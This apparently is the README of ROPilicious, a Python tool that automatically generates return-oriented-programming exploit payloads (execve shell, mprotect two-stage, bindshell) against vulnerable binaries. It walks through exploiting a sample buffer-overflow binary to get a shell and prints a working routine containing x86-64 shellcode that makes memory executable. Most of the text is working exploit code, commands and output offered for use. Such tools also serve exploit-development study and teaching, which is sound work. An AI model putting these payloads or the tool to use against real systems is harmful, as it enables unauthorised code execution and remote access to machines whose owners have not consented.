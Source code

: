 # ROPilicious

This repository has the sourcecode of our ROP tool. 

## How to use it?

Usage:
```
    $ python3 main.py --file FILE --length LEN --exploitType EXPLOITTYPE
```

## 1. How to generate an exploit using ROPilicious?

These are the exploits currently available: 

1. **execve**: execve() ROP Shellcode - will spawn a shell on success
2. **mprotect**: mprotect() ROP Shellcode + execve() traditional Shellcode - will spawn a shell on success
3. **bindshell**: bindshell ROP Shellcode - will open a socket with shell - remote access

Once you run our tool with correct arguments, a **python script** with the required payload will be generated. 

Let us run it for the executable **bof** present in the repository. 

```
    $ python3 main.py --file bof --length 5 --exploitType execve
    Searching all executable sections....
    Searching the .init section
    2
    Found 2 gadgets

    Searching the .plt section
    2
    Found 2 gadgets

    Searching the .text section
    2
    Found 6387 gadgets

    Searching the __libc_freeres_fn section
    2
    Found 6449 gadgets

    Searching the __libc_thread_freeres_fn section
    2
    Found 6454 gadgets

    Searching the .fini section
    2
    Found 6456 gadgets



    -->Chaining to get a shell using execve system call
    -->Written the complete payload in execveROPChain.py
    -->Chaining successful!
```    

The python script generated is **execveROPChain.py**. 

1. Use **gdb** or any tool you are comfortable with and find out the amount of **junk** to put before the actual payload. In this example, the amount of junk is 120 bytes. Open up **execveROPChain.py** and do the following: 

```
    # Enter the amount of junk required
    payload = ''
```

Change it to this: 
```
    # Enter the amount of junk required
    payload = 'a' * 120
```

Now, you are set. 

2. Save and close the script. 

3. Run the script. It will dump the payload to be injected into **bof** in a file **payload.txt**. 

```
    $ python2 execveROPChain.py
    $ ls -l payload.txt
    -rw-rw-r-- 1 adwi adwi 696 Mar 21 19:01 payload.txt
```

4. Run the executable and inject the payload. 

```
    $ cat payload.txt - | ./bof
    Before function call

    whoami
    adwi

    who
    adwi     tty7         Mar 18 13:09 (:0)
    uname 
    Linux
    ^C
```

And that is how its done!

## 2. Can you write your own exploits using ROPilicious?

Yes. Absolutely. The tool provides routines which generates payload to load a value into a register, to write stuff(say shellcode) you want into particular memory location etc., 

Consider the script **mprotectChain.py** - which is a proof-of-concept of the famous 2-stage exploit. 

Objective: To be able to execute **traditional shellcode** on a system guarded with **W^X**. 

This is how it's done. The exploit is divided into 2 stages. 

1. Use ROP Payload and do the 2 tasks: 
    
    * To **write** the traditional shellcode you want to execute. 
    * To execute ```mprotect()``` on ```.data section``` and make it an executable section. 

2. Jump to ```.data section``` and execute traditional shellcode(assuming mprotect was a success). 

All this can be done in around 50 lines of python code. The following is the **crux** of the exploit. You can open up **mprotectChain.py** for complete working exploit. 

The following routine gives a python script **mprotectROPChain.py** which you can run in a way similar to above shown example. 

```python

def case2(GadgetList, data_section_addr) : 

    # Open the file where the payload is written in the form of a python script
    fd = open("mprotectROPChain.py", "w")
    chain.writeHeader(fd)
    
    # Step-2: Writing traditional shellcode into .data section
    shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
    
    # Write shellcode into .data section
    chain.WriteStuffIntoMemory(shellcode, data_section_addr, fd)
    
    # System call number of mprotect = 10
    # Step-1: rax <- 10
    chain.LoadConstIntoReg(GadgetList, "rax", 10, fd)

	# Step-3: rdi <- Starting address of writable section. 
   
    # 0x6c9000 is where Writable section starts.
    chain.LoadConstIntoReg(GadgetList, "rdi", 0x6c9000, fd)
	
    # Step-4: rsi <- 100
    # Make the first 4096 * 3 bytes of Writable section executable.
    # .data section comes at an address 0x6ca980
    chain.LoadConstIntoReg(GadgetList, "rsi", 4096 * 3, fd)

    # Step-5: rdx <- 7
    # 7 - PROT_READ | PROT_WRITE | PROT_EXEC
    # The permissions to execute!
    chain.LoadConstIntoReg(GadgetList, "rdx", 7, fd)

    # At this point, .data section is executable

    # Get "syscall; ret"
    syscallList = categorize.checkIfSyscallPresent(GadgetList)
    syscallGadget = syscallList[0]
    
    syscallDict = syscallGadget[0]
    syscallAddress = syscallDict['address']
    
    fd.write("payload += struct.pack('<Q', ")
    fd.write(hex(int(syscallAddress)))
    fd.write(")")
    fd.write("\t\t# Address of syscall")
    fd.write("\n\t")

    # The "ret" of "syscall; ret" should jump to .data section
    # That is why, put .data section's address onto stack@
    fd.write("payload += struct.pack('<Q', ")
    fd.write(hex(data_section_addr))
    fd.write(")")
    fd.write("\t\t# Address of .data section where shellcode is present")
    fd.write("\n\t")
    
    chain.writeFooter(fd)
    print("-->Written the complete payload in mprotectROPChain.py")
    print("-->Chaining successful!")
```

## 3. How good is this tool?

These are the features of our tool. 

1. Completely automated ROP payload generation. 

2. Scriptable to certain extent. You can build exploits similar to that mentioned in (2) very easily. 

    * (2) demonstrated a 2-stage exploit - ROP + traditional. You can build such exploits with ease. You can combine different exploit methods with ease. 

3. Our tool does not make any assumptions on the vulnerable executable. But we expect the vulnerable executable to be big enough so that our tool can find the required gadgets. 

4. As ```system calls``` are heavy lifting functions, our tool focusses on chaining gadgets to execute system calls. Because with system calls, any type of exploit can be crafted.


## 4. How can we improve the tool?

The following are the short-comings of the tool. 

1. ROPilicious uses gadgets of the type ```Inst; ret```, classifies them based on what **Inst** instruction does and then chaining particular gadgets to get the exploit ready. It is now using very limited number of gadgets. It would be great if we are able to use complicated gadgets so that we can build better exploits and the same exploits with lesser number of gadgets - which is quite important. 

2. The tool is using Simple Syntactic Searching. We can make the tool better by making Syntactic Search more rigorous and / or Semantically searching for gadgets using Solvers, Symbolic Execution. 
